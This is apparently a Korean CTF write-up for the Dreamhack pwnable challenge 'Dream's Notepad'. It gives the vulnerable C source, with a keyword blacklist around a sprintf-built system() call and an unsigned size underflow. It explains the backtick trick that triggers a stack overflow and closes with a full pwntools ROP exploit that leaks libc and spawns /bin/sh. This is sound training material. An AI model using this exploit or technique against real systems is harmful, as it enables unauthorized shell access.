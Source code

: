 ```yaml
---
published: true
image: /img
layout: post
title: "[Dreamhack] PWN Dream's Notepad"
excerpt: "드림핵 포너블 Dream's Notepad 문제풀이"
tags: [Dreamhack, pwnable, ctf, writeup]
math: true
date: 2023-02-08 18:00
---
```


드림핵 포너블 Dream's Notepad 문제이다. 이 문제를 다운받아 보면 바이너리와 소스코드만 주어진다. 문제 환경은 공개되어 있지 않다.

문제 출제자의 의도는 rtc기법을 사용하라고 일부러 그런것 같은데... rtc를 까먹고 ROP 노가다를 했다. 일단 소스코드를 살펴보자.

```c
//gcc -o Notepad Notepad.c -fno-stack-protector
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

void Initalize(){
   setvbuf(stdin, (char *)NULL, _IONBF, 0);
   setvbuf(stdout, (char *)NULL, _IONBF, 0);
   setvbuf(stderr, (char *)NULL, _IONBF, 0);
}

void main()
{
    Initalize();

    puts("Welcome to Dream's Notepad!\n");

    char title[10] = {0,};
    char content[64] = {0,};

    puts("-----Enter the content-----");
    read(0, content, sizeof(content) - 1);

    for (int i = 0; content[i] != 0; i++)
    {
        if (content[i] == '\n')
        {
            content[i] = 0;
            break;
        }
    }

    if(strstr(content, ".") != NULL) {
        puts("It can't be..");
        return;
    }
    else if(strstr(content, "/") != NULL) {
        puts("It can't be..");
        return;
    }
    else if(strstr(content, ";") != NULL) {
        puts("It can't be..");
        return;
    }
    else if(strstr(content, "*") != NULL) {
        puts("It can't be..");
        return;
    }
    else if(strstr(content, "cat") != NULL) {
        puts("It can't be..");
        return;
    }
    else if(strstr(content, "echo") != NULL) {
        puts("It can't be..");
        return;
    }
    else if(strstr(content, "flag") != NULL) {
        puts("It can't be..");
        return;
    }
    else if(strstr(content, "sh") != NULL) {
        puts("It can't be..");
        return;
    }
    else if(strstr(content, "bin") != NULL) {
        puts("It can't be..");
        return;
    }

    char tmp[128] = {0,};

    sprintf(tmp, "echo %s > /home/Dnote/note", content);
    system(tmp);
    
    FILE* p = fopen("/home/Dnote/note", "r");
    unsigned int size = 0;
    if (p > 0)
    {
        fseek(p, 0, SEEK_END);
        size = ftell(p) + 1;
        fclose(p);
        remove("/home/Dnote/note");
    }

    char message[256];
    
    puts("\n-----Leave a message-----");
    read(0, message, size - 1);

    puts("\nBye Bye!!:-)");
}
```

첫번째로 read 함수를 통해 63만큼의 문자열을 입력 받고 블랙리스트 방식으로 문자열을 검사한다. 문제를 풀고 다른 분들의 풀이를 보니 커멘드 인젝션만으로 푸신 분들도 있었다.

블랙리스트 검사를 통과하면 echo를 통해 입력한 문자열을 쉘에 출력하고 출력한 값을 /home/Dnote/note에 저장한다. 이후 system함수를 통해 /home/Dnote/note에 저장된 데이터를 실행한다. 그 다음으로 fopen을 통해 /home/Dnote/note 파일을 오픈하는데 파일이 존재할 경우 size 변수에 파일 사이즈 +1을 해주고 파일을 삭제한다. 파일이 없으면 size는 초기화 상태인 0으로 고정된다.

이후 256사이즈의 버퍼에 read 함수를 통해 입력 받는데 입력 가능한 사이즈는 size-1이다. 여기서 unsigned int와 signed int변환 간에 생기는 취약점이 있다. 위의 fopen으로 오픈한 파일이 존재하지 않으면 size 변수는 0을 가지고 있는데 여기서 -1을 해 사이즈를 지정한다. 이때 보수 연산을 통해 결국 read가 읽을 수 있는 값은 int의 가장 큰 수가 된다. 따라서 버퍼 오버플로우를 일으킬 수 있다.

---

내가 작성한 익스플로잇을 간단히 설명해보겠다. 

우선 버퍼 오버플로우가 가능하려면 /home/Dnote/note 파일이 존재하지 않아야 한다. 따라서 백틱( ` )을 이용해 오류를 발생시켜 파일이 생성되지 않도록 했다. 백틱은 쌍을 이뤄 사용해야 한다. 하나만 사용되면 오류가 발생해 백틱을 열었으면 백틱을 한번 더 입력 해 닫아줘야 한다.

ROP를 통해서 read_got를 put_plt 함수로 출력하고 이후 다시 main함수로 돌아온다. gdb를 통해 확인한 결과 rbp-0x1e0를 통해 read 한 데이터를 입력 받고 있었다. 0x1e0를 dec로 바꾸면 480이고 sfp를 포함하면 488만큼 메모리를 덮어줘야 한다. 이후 pop rdi; ret 가젯을 사용했다.

출력된 read 함수 주소를 이용해 libc base 주소를 계산하고 libc의 system함수 주소와 bin/sh 주소를 찾아 다시 버퍼 오버플로우를 통해 쉘을 실행시켰다.

이런 방법에 문제는 해당 문제의 환경을 모르기 때문에 환경에 따른 libc 오프셋이 바뀔 수 있다는 것디아. 실제로 우분투 16 18 20 22 버전의 libc를 각각 전부 돌려 쉘을 획득 할 수 있었다.

문제를 풀긴 풀었지만... 정석대로 풀려면 rtc 공격을 활용해야 한다.


```python
from pwn import *
context.update(arch='amd64', os='linux')

c = remote("host3.dreamhack.games", 12708);
#c = process("./Notepad")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

c.sendafter(b"-----Enter the content-----\n", b"`")
#pop rdi; ret 0x400c73
pr = 0x400c73
read_got = 0x602040
put_plt = 0x400730
main = 0x400957

payload = p64(pr)+p64(read_got)+p64(put_plt)+p64(main)
payload = b"a"*488 + payload
c.sendafter(b"-----Leave a message-----\n", payload)

c.recvuntil(b"Bye Bye!!:-)\n")
libc_base = u64(c.recv(6)+b"\x00\x00")-libc.sym['read']
print("libc_base : "+hex(libc_base))

system = libc_base + libc.sym['system']
print(f"system : {hex(system)}")
binsh = libc_base+list(libc.search(b'/bin/sh'))[0]
print(f"binsh : {hex(binsh)}")

payload2 = p64(pr)+p64(binsh)+p64(system)
payload2 = b"a"*488 + payload2

c.sendafter(b"-----Enter the content-----\n", b"`")

c.sendafter(b"-----Leave a message-----\n", payload2)
c.interactive()

```